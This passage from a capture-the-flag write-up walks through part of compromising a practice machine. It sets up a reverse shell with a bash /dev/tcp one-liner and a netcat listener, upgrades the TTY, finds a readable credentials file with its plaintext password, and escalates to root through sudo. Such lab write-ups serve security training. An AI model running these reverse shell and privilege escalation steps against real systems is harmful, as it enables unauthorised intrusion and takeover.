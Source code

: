 3. Interactive Shell: for make the shell more interactive run the following and open new terminal to get another shell sesion:
```
/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.203/80 0>&1'
```
```
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.45.203] from (UNKNOWN) [192.168.218.25] 39954
bash: cannot set terminal process group (1241): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Jordaninfosec-CTF01:/var/www/html/uploaded_files$
```
Then running the following steps:
- `Ctrl-Z`
- `stty -a | cut -d';' -f2-3 | head -n1` should show the values of rows and columns.
- `stty raw -echo;fg` should bring the shell to front ground.
- `stty rows 27 columns 120` the values here are from the first stty command output.
- `python3 -c 'import pty; pty.spawn("/bin/bash")` spawn the shell in bash.

4. System Enumeration: enumerate the target with `linpeas` and also found under `/home/` directory that there is user named technawi, so run the following command:
```
find / -type f -user technawi -readable 2>/dev/null
```
found the following file which look interesting:
```
/etc/mysql/conf.d/credentials.txt
```
that file contain the user and password for that technawi user:
```
username : technawi
password : 3vilH@ksor
```

5. Privilege Escalation: run `su` with technawi work with that password, check what command that user can run with `sudo -l` showed us that he can run all so run `sudo su` and we have root.
```
www-data@Jordaninfosec-CTF01:/home/technawi$ su technawi
Password:
technawi@Jordaninfosec-CTF01:~$ sudo -l
Matching Defaults entries for technawi on Jordaninfosec-CTF01:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User technawi may run the following commands on Jordaninfosec-CTF01:
(ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:~$ sudo su
root@Jordaninfosec-CTF01:/home/technawi# id
uid=0(root) gid=0(root) groups=0(root)
root@Jordaninfosec-CTF01:/home/technawi#
```

#### Final table methodology

After finish all of that machine, now we can create table that show the steps for each, and what was done for each:
